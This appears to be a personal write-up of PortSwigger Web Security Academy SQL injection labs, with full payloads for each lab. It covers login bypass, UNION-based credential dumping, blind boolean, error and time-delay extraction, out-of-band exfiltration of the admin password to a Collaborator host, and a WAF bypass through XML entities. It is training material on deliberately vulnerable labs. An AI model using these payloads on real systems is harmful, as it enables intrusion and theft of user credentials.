# SQL injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Description

[This lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked) an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the category parameter, adding a `'`
3. Create payload, submit the request, and verify that the response now contains additional items.

```text
https://lab-id.web-security-academy.net/filter?category=Pets' OR 1=1 -- 
```

### Exploitability

An attacker needs to perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

----

## SQL injection vulnerability allowing login bypass

### Description

[This lab](https://portswigger.net/web-security/sql-injection/lab-login-bypass) contains an SQL injection vulnerability in the login function.

### Proof of concept

1. SQL:

```text
SELECT * FROM users WHERE username = 'administrator' AND password = '' OR 1=1 --
```
    
2. Use Burp Suite to intercept and modify the login request.
3. Modify the username parameter, giving it the value: `administrator'--`

Or modify it in the URL:



### Exploitability

An attacker needs to perform an SQL injection attack that logs in to the application as the `administrator` user. 

----

## SQL injection UNION attack, determining the number of columns returned by the query

### Description

[This lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. 

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter. 
2. Modify the category parameter, giving it the value `'+UNION+SELECT+NULL--`. Note that an error occurs.
3. Modify the category parameter to add another column containing a null value: `'+UNION+SELECT+NULL,NULL--`
4. Continue adding null values until the error disappears and the response includes additional content containing the null values.




### Exploitability

An attacker needs to determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values. 

----

## SQL injection UNION attack, finding a column containing text

### Description

[This lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. 

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter: `'+UNION+SELECT+NULL,NULL,NULL--`
3. Try replacing each null with the random value provided by the lab, for example: `'+UNION+SELECT+'abcdef',NULL,NULL--`
4. If an error occurs, move on to the next null and try that instead.





### Exploitability

An attacker needs to perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps determine which columns are compatible with string data. 

----

## SQL injection UNION attack, retrieving data from other tables

### Description

[This lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, it is possible to use a UNION attack to retrieve data from other tables. 

The database contains a different table called users, with columns called username and password.

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the contents of the users table: `'+UNION+SELECT+username,+password+FROM+users--`
4. Verify that the application's response contains usernames and passwords.
5. Log in as administrator.



### Exploitability

An attacker needs to perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

----

## SQL injection UNION attack, retrieving multiple values in a single column

### Description

[This lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, it is possible to use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+NULL,'abc'--`
3. Use the following payload to retrieve the contents of the users table: `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
4. Verify that the application's response contains usernames and passwords.
5. Log in as administrator.



### Exploitability

An attacker needs to perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

----

## SQL injection attack, querying the database type and version on Oracle

### Description

[This lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle) contains an SQL injection vulnerability in the product category filter. It is possible to use a UNION attack to retrieve the results from an injected query.

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to display the database version: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`



### Exploitability

An attacker will need to display the database version string.

----

## SQL injection attack, querying the database type and version on MySQL and Microsoft

### Description

[This lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft) contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: `'+UNION+SELECT+'abc','def'#`
3. Use the following payload to display the database version: `'+UNION+SELECT+@@version,+NULL#`


...


----

## SQL injection attack, listing the database contents on non-Oracle databases

### Description

[This lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so it is possible to use a UNION attack to retrieve data from other tables.

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

```text
'+UNION+SELECT+'abc','def'--
```
    
3. Use the following payload to retrieve the list of tables in the database:

```text
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
    
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

```text
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_okfnmf'--
```
    
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

```text
'+UNION+SELECT+username_uoclxg,+password_slibfj+FROM+users_okfnmf--
```
    
8. Find the password for the administrator user, and use it to log in.


### Exploitability

The application has a login function, and the database contains a table that holds usernames and passwords. An attacker needs to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users, and log in to the site as `administrator`.

----

## SQL injection attack, listing the database contents on Oracle

### Description

[This lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle) contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so it is possible to use a UNION attack to retrieve data from other tables.

### Proof of concept

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

```text
'+UNION+SELECT+'abc','def'+FROM+dual--
```
    
3. Use the following payload to retrieve the list of tables in the database:

```text
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

```text
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_GYCDOW'--
```
    
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

```text
'+UNION+SELECT+USERNAME_WWIUXV,+PASSWORD_GFLFLH+FROM+USERS_GYCDOW--
```
    
8. Find the password for the administrator user, and use it to log in.



### Exploitability

The application has a login function, and the database contains a table that holds usernames and passwords. An attacker needs to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users, and login as administrator. 

----

## Blind SQL injection with conditional responses

### Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. By exploiting the blind SQL injection vulnerability we can find out the password of the administrator user.

### Proof of concept

1. Confirm `TrackingId` parameter is vulnerable: Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. 

```text
Cookie: TrackingId=qKu8R40rq4Hdsfpb; session=2IsD4KyEz4hxnNcI3RdIZbsVggIw71c5
```

2. Send to Repeater. Change the TrackingId cookie to: `TrackingId=qKu8R40rq4Hdsfpb' AND '1'='1`. The "Welcome back" message appears in the response. 
3. Now change it to: `TrackingId=qKu8R40rq4Hdsfpb' AND '1'='2`. The "Welcome back" message does not appear in the response. This confirms `TrackingId` is a vulnerable parameter.
4. Confirm there is a `users` table. Now change it to: `TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT 'a' FROM users LIMIT 1)='a`. There is a "Welcome Back" so the condition is true, confirming that there is a table called `users`. 
5. Now confirm that the username `administrator` exists in the `users` table. Change the `TrackingId` parameter to: 

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator')='administrator'--'
```

"Welcome back", so the condition is true, confirming that there is a user called `administrator`. 

6. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'--'
```

7. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>2)='administrator'--'
```

```text
TrackingId=qKu8R40rq4Hdsfpb' AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>3)='administrator'--'
```

Etcetera. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is 20 characters long.

Request:


Response:


8. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request you are working on to Burp Intruder, using the context menu.
9. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
10. I took a break, and the lab timed out. New `TrackingId` value of `tFVVYAOZtT7hz2qi`. In the Positions tab, change the value of the cookie to:

```text
TrackingId=tFVVYAOZtT7hz2qi' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```
    
This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. The attack will cycle through each position and possible value, testing each one in turn.

11. Place payload position markers around the final `a` character in the cookie value. To do this, select just the `a`, and click the "Add §" button:

```text
TrackingId=tFVVYAOZtT7hz2qi'+AND+(SELECT+SUBSTRING(password,1,1)+FROM+users WHERE+username&3d'administrator')%3d'§a§'--
```




12. To test the character at each position, send suitable payloads in the payload position defined. For this lab, assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Bruteforcer" is selected, and under "Payload Options" the range a-z and 0-9 are by default set. 



13. To be able to tell when the correct character was submitted, grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".



14. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
15. Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.
16. Re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=tFVVYAOZtT7hz2qi'+AND+(SELECT+SUBSTRING(password,2,1)+FROM+users WHERE+username&3d'administrator')%3d'§a§'--
```

17. Launch the modified attack, review the results, and note the character at the second offset.
18. Continue this process testing offset `3`, `4`, and so on, until `20` and you have the whole password.
19. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.



----

## Blind SQL injection with conditional errors

### Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. Exploiting the blind SQL injection vulnerability the password of the administrator user can be found out. 

### Proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie. The value of the cookie is `TrackingId=fUlVewByGOv8LfSS`.
2. Confirm the `TrackingId` is a SQLi vulnerable parameter: Modify the `TrackingId` cookie, appending a single quotation mark to it: `TrackingId=fUlVewByGOv8LfSS'`. An error message is received.
3. Now change it to two quotation marks: `TrackingId=fUlVewByGOv8LfSS''`. The error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.
4. Confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error: Construct a subquery using valid SQL syntax:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '')||'
```
    
The query appears to still be invalid. This may be due to the database type - try Oracle, by specifying a predictable table name in the query:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM dual)||'
```
    
There is no error, indicating that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

5. Crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, by querying a non-existent table name:
    
```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM not-a-real-table)||'
```
    
An error is returned. This behaviour strongly suggests that your injection is being processed as a SQL query by the back-end.

Note: As long as syntactically valid SQL queries are injected, error responses can be used to infer key information about the database. 

6. To verify that the users table exists, send the query:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
    
As this query does not return an error, infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important to prevent the query from returning more than one row, which would break the concatenation.

7. It is also possible exploit this behaviour to test conditions:
    
```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Verify that an error message is received. 

8. Then change it to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
    
The error disappears, demonstrating that it is possible to trigger an error conditionally on the truth of a specific condition. The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The first expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

Note: It is possible to use this behaviour to test whether specific entries exist in a table. 

9. Use the following query to check whether the username administrator exists:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
Verify that the condition is true (the error is received), confirming that there is a user called administrator.


 

10. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

This condition should be true, confirming that the password is greater than 1 character in length.

11. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
Then send:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
And so on. Do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is 20 characters long.




12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request to Burp Intruder, using the context menu.
13. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
14. In the Positions tab, change the value of the cookie to:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

15. Place payload position markers around the final a character in the cookie value. To do this, select just the `a`, and click the "Add §" button:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
    
16. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range `a-z` and `0-9`. You can select these easily using the "Add from list" drop-down.
17. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
18. Review the attack results to find the value of the character at the first position. The application returns an HTTP `500` status code when the error occurs, and an HTTP `200` status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with `500` in this column. The payload showing for that row is the value of the character at the first position.



19. Re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=fUlVewByGOv8LfSS'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

20. Launch the modified attack, review the results, and note the character at the second offset.
21. Continue this process testing offset `3`, `4`, and so on, until the whole password is known.
22. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.



----

## Blind SQL injection with time delays

### Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

Exploiting the SQL injection vulnerability to cause a 10 second delay. 

### Proof of concept

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to:

```text
TrackingId=MEhPSLGnBgPXZFUF'||pg_sleep(10)--
```
    
3. Enter the request and observe that the application takes 10 seconds to respond.

----

## Blind SQL injection with time delays and information retrieval

### Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. Exploiting the blind SQL injection vulnerability gives the password of the administrator user. 

### Proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie.
2. Modify the TrackingId cookie, changing it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
    
Verify that the application takes 10 seconds to respond.

3. Now change it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

The application responds immediately with no time delay, demonstrating how to test a single boolean condition and infer the result.

4. Change it to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
The condition is true, confirming that there is a user called `administrator`.

5. The next step is to determine how many characters are in the password of the administrator user:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
This condition is true, confirming that the password is greater than 1 character in length.

6. Send a series of follow-up values to test different password lengths. Send:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
Then send:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
And so on. Do this manually using Burp Repeater, because the length is likely to be short. When the condition stops being true (i.e. when the application responds immediately without a time delay), the length of the password is known. It is 20 characters long.

7. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests. Send the request to Burp Intruder, using the context menu.
8. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
9. In the Positions tab, change the value of the cookie to:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value. The attack has to cycle through each position and possible value, testing each one in turn.

10. Place payload position markers around the a character in the cookie value. Select the `a`, and click the "Add §" button (note the payload position markers):

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```


    
11. To test the character at each position, send suitable payloads in the payload position defined. In this lab, assume that the password contains only lower case alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range `a-z` and `0-9`. Select these using the "Add from list" drop-down.



12. To be able to tell when the correct character was submitted, monitor the time taken for the application to respond to each request: Configure the Intruder attack to issue requests in a single thread: Go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.



13. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
14. Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check "Response received".



15. Review the attack results to find the value of the character at the first position. There should now be a column in the results called "Response received". This will generally contain a small number, representing the number of milliseconds the application took to respond. One of the rows will have a larger number in this column, in the region of 10,000 milliseconds. The payload showing for that row is the value of the character at the first position.



16. Re-run the attack for each of the other character positions in the password, to determine their value: Go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from `1` to `2`:

```text
TrackingId=Q2FXgn5mU12ePxfM'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
    
17. Launch the modified attack, review the results, and note the character at the second offset.
18. Continue this process testing offset `3`, `4`, and so on, until the whole password is known.
19. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.



----

## Blind SQL injection with out-of-band interaction

### Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

Burp Suite Professional is required to solve this lab! 

### Proof of concept

1. Visit the Home page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the TrackingId cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, SQL injection can be combined with basic XXE techniques:
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified TrackingId cookie (Use the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to create payloads).

```text
TrackingId=3vN9DLaImMIfzJgX' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://e0fmgwxdxyfjykzktu8mtaj06rci0bo0.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

URL-encode (CTRL-U):

```text
TrackingId=3vN9DLaImMIfzJgX'+||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//e0fmgwxdxyfjykzktu8mtaj06rci0bo0.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--
```

4. Send, and check in the Collaborator tab that the payload had indeed triggered a DNS lookup and potentially exploit this behaviour to exfiltrate sensitive data from the application.:



### Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server. To solve the lab, it is required to exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) is only available in the Enterprise and Professional editions. You can apply for a free 30-day trial [here](https://portswigger.net/requestfreetrial/pro). 

----

## Blind SQL injection with out-of-band data exfiltration

### Description

[This lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration) contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. But it is possible to trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. 

### Proof of concept

1. Visit the Home page of the shop, and use Burp Suite Professional to intercept and modify the request containing the TrackingId cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:

```text
cAR8nwK4HqzZfv5s'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.pg9488c6rmdictx7jxvteizbt2ztnjb8.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified TrackingId cookie.
4. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
5. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the administrator user should appear in the subdomain of the interaction, and you can view this within the Collaborator tab. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.



6. In the browser, click "My account" to open the login page. Use the password to log in as the administrator user.

### Exploitability

An attacker needs to exploit the blind SQL injection vulnerability to find out the password of the administrator user. 

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab as intended, you must use Burp Collaborator's default public server. To solve the lab, it is required to exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) is only available in the Enterprise and Professional editions. You can apply for a free 30-day trial [here](https://portswigger.net/requestfreetrial/pro). 

----

## SQL injection with filter bypass via XML encoding

### Description

[This lab](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding) contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users.

### Proof of concept

#### Identify the vulnerability

1. Observe that the stock check feature sends the `productId` and `storeId` to the application in XML format.



2. Send the `POST /product/stock` request to Burp Repeater.
3. In Burp Repeater, probe the `storeId` to see whether the input is evaluated. For example, try replacing the ID with mathematical expressions that evaluate to other potential IDs, for example:

```text
<storeId>1+1</storeId>
```
4. Observe that the input appears to be evaluated by the application, returning the stock for different stores.
5. Try determining the number of columns returned by the original query by appending a `UNION SELECT` statement to the original store ID:

```text
<storeId>1 UNION SELECT NULL</storeId>
```

6. Observe that your request has been blocked due to being flagged as a potential attack.
7. 


#### Bypass the WAF

1. As you're injecting into XML, try obfuscating your payload using XML entities. One way to do this is using the Hackvertor extension. Just highlight your input, right-click, then select **Extensions -> Hackvertor -> Encode -> dec_entities/hex_entities**.



2. Resend the request and notice that you now receive a normal response from the application. This suggests that you have successfully bypassed the WAF.



#### Craft an exploit

1. Pick up where you left off, and deduce that the query returns a single column. When you try to return more than one column, the application returns 0 units, implying an error.
2. As you can only return one column, you need to concatenate the returned usernames and passwords, for example:
 
```text
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```
    
3. Send this query and observe that you've successfully fetched the usernames and passwords from the database, separated by a `~` character.



4. Use the administrator's credentials to log in and solve the lab.

